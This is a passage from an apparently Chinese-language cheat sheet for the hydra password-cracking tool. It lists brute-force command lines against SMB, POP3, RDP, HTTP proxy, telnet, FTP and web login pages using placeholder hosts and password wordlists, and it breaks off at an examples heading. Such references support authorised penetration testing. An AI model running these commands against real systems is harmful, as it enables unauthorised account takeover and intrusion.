   * 破解smb：

    
    
    # hydra -l administrator -P pass.txt IP smb

  * 破解pop3：

    
    
    # hydra -l muts -P pass.txt my.pop3.mail pop3

  * 破解rdp：

    
    
    # hydra IP rdp -l administrator -P pass.txt -V

  * 破解http-proxy：

    
    
    # hydra -l admin -P pass.txt http-proxy://10.36.16.18

  * 破解telnet

    
    
    # hydra IP telnet -l 用户 -P 密码字典 -t 32 -s 23 -e ns -f -V

  * 破解ftp：

    
    
    # hydra IP ftp -l 用户名 -P 密码字典 -t 线程(默认16) -vV
    
    # hydra IP ftp -l 用户名 -P 密码字典 -e ns -vV

  * get方式提交，破解web登录：

    
    
    # hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns IP http-get /admin/
    
    # hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns -f IP http-get /admin/index.php

### 四、实例

* * *
